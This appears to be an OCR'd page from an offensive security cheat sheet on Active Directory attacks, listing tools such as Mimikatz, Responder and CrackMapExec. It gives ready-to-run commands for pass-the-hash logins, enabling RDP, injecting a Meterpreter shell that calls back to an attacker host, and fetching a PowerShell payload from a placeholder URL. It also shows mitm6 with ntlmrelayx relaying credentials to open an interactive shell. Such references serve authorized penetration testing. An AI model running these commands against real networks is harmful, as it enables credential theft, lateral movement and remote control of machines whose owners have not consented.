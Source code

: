 # Active Directory Attacks

## Tools

- [Impacket](https://github.com/CoreSecurity/impacket) or the [Windows version](https://github.com/maaaaz/impacket-examples-windows)
    
- [Responder](https://github.com/lgandx/Responder)
    
- [InveighZero](https://github.com/Kevin-Robertson/InveighZero)
    
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
    
- [Ranger](https://github.com/funkandwagnalls/ranger)
    
- [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
    
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
    
    ```powershell
    # use the latest release, CME is now a binary packaged will all its dependencies
    root@payload$ wget https://github.com/byt3bl33d3r/CrackMapExec/releases/download/v5.0.1dev/cme-ubuntu-latest.zip
    
    # execute cme (smb, winrm, mssql, ...)
    root@payload$ cme smb -L
    root@payload$ cme smb -M name_module -o VAR=DATA
    root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --local-auth
    root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --shares
    root@payload$ cme smb 192.168.1.100 -u Administrator -H ':5858d47a41e40b40f294b3100bea611f' -d 'DOMAIN' -M invoke_sessiongopher
    root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
    root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M metinject -o LHOST=192.168.1.63 LPORT=4443
    root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -M web_delivery -o URL="https://IP:PORT/posh-payload"
    root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -X 'whoami'
    root@payload$ cme smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M mimikatz
    root@payload$ cme mimikatz --server http --server-port 80
    ```
    
- [Mitm6](https://github.com/fox-it/mitm6.git)
    
    ```bash
    git clone https://github.com/fox-it/mitm6.git && cd mitm6
    pip install .
    mitm6 -d lab.local
    ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
    # -wh: Server hosting WPAD file (Attacker’s IP)
    # -t: Target (You cannot relay credentials to the same device that you’re spoofing)
    # -i: open an interactive shell
    ntlmrelayx.py -t ldaps://lab.local -wh attacker-wpad --delegate-access
    ```
    